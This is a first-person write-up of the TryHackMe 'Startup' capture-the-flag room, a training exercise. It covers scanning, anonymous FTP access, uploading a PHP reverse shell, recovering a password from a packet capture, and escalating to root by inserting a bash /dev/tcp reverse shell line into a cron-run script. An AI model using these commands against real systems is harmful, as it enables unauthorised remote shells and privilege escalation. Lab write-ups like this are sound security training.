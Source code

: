 # TryHackMe: Startup CTF Writeup

## Introduction

This is my first CTF writeup. It will cover on how I did the enumeration, exploitation and privilege escalation. The challenge is rated easy. This room is about a startup called Spice Hut company who are worried about their security and are unsure if their developers are doing it right. So our job as pentester is to find root and will do just that.


## Scanning with Nmap 

First let's scan with nmap and also checking out as many ports as possible at same time so nothing is missed out. 

Syntax- nmap -sV -sC -p- IP

After scanning there are 3 ports that are open, these ports are 21,22 and 80.

![Nmap results 1](assets/nmap1.png)
![Nmap results 2](assets/nmap2.png)

However if you notice there's anonymous login allowed in ftp port which means we can access it without requiring specific user account.

## FTP enumeration

After logging as Anonymous in ftp port, there are apparently 2 files with one of them being text file. Perhaps we will find something useful from these two files. 

Syntax- ftp IP

![FTP enumeration](assets/ftp.png)

When checking there was nothing important found in these two files, while the text file had a name but that's still vague so before we can try anything lets check the browser.

![Website](assets/website.png)

The browser didn't have anything, using dev tools there was no giveaway even though the dev comment mentions they haven't updated anything yet.

Unfortunately we are still at Dead end with nothing useful even after getting ftp access and finding files. Instead what we can do is move on to Directory Enumeration with Gobuster. 

## Directory enumeration with GoBuster

Let's use gobuster to find out if we can find any files in the webdirectory which we couldn't find through ftp. 

Syntax- gobuster dir -u "target_IP" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![Gobuster Enumeration 1](assets/gobuster1.png)
![Gobuster Enumeration 1](assets/gobuster2.png)

After searching through gobuster, there is files directory. In that directory it has ftp which was found same as in the port. This confirmed the FTP directory was accessible via the web server.

## Web enumeration

Now after checking through the webdirectory in the browser, it had same files that was found in ftp thus there might be more to this.

![Web enumeration](assets/webdirectory.png)

when checking ftp directory there was nothing in there, and if we remember the ftp directory in the port 21, There was full permission for ftp which can only mean one thing.

![Web enumeration](assets/ftp_directory.png)

What we can do here is to upload php reverse shell into ftp directory and hopefully get ssh access.

## Reverse Shell Exploit

After uploading php reverse shell, we will then start a listener from our side. We will access the php reverse shell.

Syntax- put php-reverse-shell.php

![Reverse Shell Exploit](assets/php_reverse_shell.png)
![Reverse Shell Exploit](assets/webshell_payload.png)

And The reverse shell has worked, now we just spawn the bash shell with python to make it easier navigating files.

Syntax- python3 -c 'import pty; pty.spawn("/bin/bash")'


![Reverse Shell Exploit](assets/ssh_access.png)
![Reverse Shell Exploit](assets/TTY.png)

When checking the files in current directory, there's a text file.

The recipe.txt file has the answer for the first task question.

![Reverse Shell Exploit](assets/task1_answer.png)

Next task we will need to find out user.txt, so we need to find a user account to access the flag, lets check navigate around and check if theres any name.

## Privilege Escalation

After navigating around the files, there are 2 notable mentions, first is incidents which has .pcapng in it which is really suspicious and it can be checked with wireshark to see if we can know anything useful about it. Other is in home directory, it has name as lennie which is obviously blocked from accessing it however that's probably the user we will need to get access for the next flag.

![Priv-Esc](assets/suspicious_files.png)

first lets download the .pcapng file and check with wireshark. 

Syntax- python3 -m http.server 8000 

        wget <local_IP>:8000/filename

![Priv-Esc](assets/suspicious_file_download.png)


Apparently the attacker had made an attempt before to access before and did it similar as we are doing it however they didn't get the access while trying to brute force but we stil get to know the password they attempted to use. Which could probably what we need for lennie account we had found.

![Priv-Esc](assets/wireshark.png)

We will try to access ssh credentials of lennie account and see if it works. Which it did and we are in.

![Priv-Esc](assets/user_access.png)

Not only that we are in directory where user flag is for the task 2 question.

![Priv-Esc](assets/user_flag.png)

With this flag done, now we only have one more flag left and its for root which we were asked to reach. For that, we will now navigate to see if theres any clues to escalate further.

I have checked in lennie's directory to see if theres any giveaway, there was some text files but they didn't mention anything important we need to know. However there was script folder, in that apparently there was planner.sh file and that file was run by root. This is very big clue and not only that.

![Priv-Esc](assets/scripts.png)
![Priv-Esc](assets/check_permissions1.png)

In that file there was another .sh and after checking the content, i found the permissions of print.sh has full permissions for the user account. 

![Priv-Esc](assets/user_permissions.png)


There's one more thing to note in user's directory, the text file has been running every minute as i rechecked permissions again, which means this is a cronjob and that means if we drop a reverse shell inside print.sh file which has full permissions for the user account we are using and then let it run after being modified which we can then do a listener to confirm if we are able to get the root privileges or not.

![Priv-Esc](assets/cronjob.png)

First, we will modify the print.sh with nano editor and then listen in our local machine with netcat and wait for abit.

Syntax- bash -i >& /dev/tcp/Local_IP/port 0>&1

![Priv-Esc](assets/reverse-shell.png)

And we are done, we have got the root access to the target and so is the flag for our final task.

![Priv-Esc](assets/root_access.png)
![Priv-Esc](assets/root_flag.png)

## Conclusion

This CTF tests the basics very well and understanding how to leverage FTP Anonymous access as well as exploit cronjob for privilege escalation. Thank you for reading this and hope it helps others.










